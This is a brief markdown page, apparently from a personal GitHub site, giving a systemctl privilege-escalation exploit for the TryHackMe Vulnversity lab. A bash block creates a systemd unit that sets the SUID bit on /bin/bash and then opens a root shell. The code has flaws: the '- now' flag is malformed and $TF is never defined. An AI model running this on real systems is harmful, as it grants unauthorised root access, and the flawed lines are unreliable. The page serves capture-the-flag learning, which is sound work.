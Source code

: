 ```yaml
---
layout: default
---
```


## systemctl exploit for TryHackMe Vulnversity Room 

```bash
cat << EOF > $TF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target
EOF
systemctl link $TF
systemctl enable - now $TF
bash -p
```

[back](./)

